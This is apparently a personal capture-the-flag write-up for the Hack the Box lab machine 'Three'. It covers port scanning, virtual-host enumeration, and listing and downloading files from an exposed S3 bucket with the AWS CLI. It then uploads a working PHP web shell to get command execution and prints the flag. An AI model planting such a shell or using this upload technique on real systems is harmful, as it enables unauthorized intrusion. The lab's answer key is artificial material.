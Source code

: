 # Writeup "Three"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                             </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/starting-point                </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-three-discussion </td></tr>
   <tr><td><b> type       </b></td><td> starting-point/tier-1                                    </td></tr>
   <tr><td><b> difficulty </b></td><td> very easy                                                </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-12                                               </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-12                                               </td></tr>
</table>

## Description

> N/A

## Solution

---

> Task 1: How many TCP ports are open?  
> Hint: `*`

We perform a portscan using `sudo nmap -sV -sC -v $IP` which discovers two open ports, both TCP: ports 22 (ssh) and 80 (http).

---

> Task 2: What is the domain of the email address provided in the "Contact" section of the website?  
> Hint: `**********.**b`

We open the provided IP address in our browser and scroll down to the contact section. The e-mail given is `mail@thetoppers.htb`.

---

> Task 3: In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?  
> Hint: `/***/****s`

Correct answer is `/etc/hosts`.

---

> Task 4: Which sub-domain is discovered during further enumeration?  
> Hint: `**.**********.**b`

We start by using `gobuster dns` which yields no results however; so, we start to research other `gobuster` options. It turns out that the correct command to use in this case is

```
gobuster vhost --url "thetoppers.htb" --wordlist /usr/share/wordlists/amass/subdomains.lst
```

This gives us several subdomains with error codes `400` and one subdomain with error code `404`: `s3.thetoppers.htb`

---

> Task 5: Which service is running on the discovered sub-domain?  
> Hint: `****** *3`

The `nmap` output gives us no hints, so we do a web search for `s3 service`. We find a page describing _"Amazon S3"_, a data storage service[^1]. We also find an article describing a vulnerability called _"Sub-Domain Take Over"_[^2].

---

> Task 6: Which command line utility can be used to interact with the service running on the discovered sub-domain?  
> Hint: `*****i`

A web search for _"interact with amazon s3"_ shows a lot of results referencing a tool named "AWS CLI".

---

> Task 7: Which command is used to set up the AWS CLI installation?  
> Hint: `*** ********e`

We find a page describing how to install AWS CLI[^3] and how to to the initial setup[^4], where the command `aws configure` is used for a quick setup of the AWS CLI installation.

---

> Task 8: What is the command used by the above utility to list all of the S3 buckets?  
> Hint: `*** ** *s`

Reading further through the Amazon S3 manual, we find the command for listing buckets and objects: `aws s3 ls`[^5].

---

> Task 9: This server is configured to run files written in what web scripting language?  
> Hint: `***`

In the manual, we find a page describing scripting-related commands[^6]. One command allows us to list all objects in a certain bucket:

```
$ aws s3api list-objects --endpoint=http://s3.thetoppers.htb --bucket thetoppers.htb

None
CONTENTS        "d41d8cd98f00b204e9800998ecf8427e"      .htaccess       2022-08-12T14:23:07+00:00       0       STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "dfb9777b31be8fabb294b983923643b1"      images/band.jpg 2022-08-12T14:23:07+00:00       90172   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "2b4717d134a1054878e8c4739a2a36c5"      images/band2.jpg        2022-08-12T14:23:07+00:00       282848  STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "06a429a7bb58cc67108ab25016bd7372"      images/band3.jpg        2022-08-12T14:23:08+00:00       2208869 STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "c636245ad5b87088bd2ded8b0041be65"      images/final.jpg        2022-08-12T14:23:07+00:00       77206   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "fa600c2eb22b00d611ff32176e2ddc8f"      images/mem1.jpg 2022-08-12T14:23:07+00:00       69170   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "9e8d050b41fb5a7009d253624ff1148d"      images/mem2.jpg 2022-08-12T14:23:07+00:00       39270   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "ba63bc1fb60af4a6cdac15085d7bd9d1"      images/mem3.jpg 2022-08-12T14:23:07+00:00       64347   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "fb333c634786553e5431192eb9e3015e"      index.php       2022-08-12T14:23:07+00:00       11952   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
```

We can see that there is a _PHP_ file, so this should be the right answer.

---

> Submit flag

After a lot of trial and error, we find a command to download all files from the bucket to the local file system:

```
aws --endpoint=http://s3.thetoppers.htb s3 cp s3://thetoppers.htb . --recursive
```

However, those files do not contain any useful information for us. So we decide to use the command in the other way and upload a PHP shell:

``` php
<form action="rce.php" method="get">
  <input type="text" id="cmd" name="cmd" value='<?php print($_GET["cmd"]); ?>' autofocus 
    onfocus="var temp_value=this.value; this.value=''; this.value=temp_value" />
</form>
<hr />
<pre>
  <?php system($_GET["cmd"]); ?>
</pre>
```

We can now open this shell by navigating to `http://thetoppers.htb/rce.php`. Using the command `find / -name *flag*` we find the location of the flag:

<p align="center">
   <img src="includes/three-01.png" />
</p>

Using the command `cat /var/www/flag.txt` we can get the flag:

```
a980d99281a28d638ac68b9bf9453c2b
```

### Sources

[^1]: https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html
[^2]: https://towardsaws.com/subdomain-takeover-aws-s3-bucket-4699815d1b62?gi=70ed3207e2b1
[^3]: https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html
[^4]: https://docs.aws.amazon.com/cli/latest/userguide/getting-started-quickstart.html
[^5]: https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html#using-s3-commands-listing-buckets
[^6]: https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html#using-s3-commands-listing-buckets
[^7]: 
[^8]: 
[^9]: 
[^10]: 
[^11]: 
[^12]: 
[^13]: 
[^14]: 

